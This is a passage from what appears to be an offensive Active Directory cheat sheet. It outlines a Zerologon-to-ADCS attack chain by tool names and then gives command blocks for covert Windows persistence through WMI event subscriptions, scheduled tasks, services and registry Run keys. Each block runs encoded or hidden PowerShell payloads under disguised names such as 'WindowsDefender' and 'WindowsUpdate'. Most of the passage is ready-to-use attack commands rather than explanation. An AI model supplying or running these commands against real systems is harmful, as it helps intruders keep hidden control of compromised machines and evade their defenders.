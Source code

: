 ### 🔗 Chain 6: Zerologon → ADCS → Persistence

1. **zerologon_tester.py** → Test for Zerologon vulnerability
2. **cve-2020-1472-exploit.py** → Reset DC machine account
3. **secretsdump.py** → Extract all domain secrets
4. **certipy ca** → Abuse ADCS for persistence
5. **restorepassword.py** → Restore DC machine account (stealth)

---

## 🔮 Advanced Persistence & Evasion

### 🎭 Advanced Persistence Methods

#### WMI Event Subscriptions

```powershell
# Create WMI persistence
$Query = "SELECT * FROM Win32_Process WHERE Name='notepad.exe'"
$Action = "powershell.exe -enc <base64_payload>"
Register-WmiEvent -Query $Query -Action { Start-Process $Action }

# Cleanup
Get-WmiObject -Class __EventFilter -Namespace root\subscription | Remove-WmiObject
```

#### Scheduled Tasks Persistence

```bash
# Linux - Impacket
atexec.py domain.com/user:pass@target 'schtasks /create /tn "UpdateTask" /tr "powershell -enc <payload>" /sc daily'

# Windows
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -w hidden -c <payload>" /sc onlogon /ru system
```

#### Service Persistence

```bash
# Create malicious service
sc create "WindowsDefender" binpath= "cmd.exe /c powershell -enc <payload>" start= auto
sc start "WindowsDefender"
```

#### Registry Persistence

```powershell
# Multiple registry persistence methods
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefender" -Value "powershell -enc <payload>"
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell -enc <payload>"
```
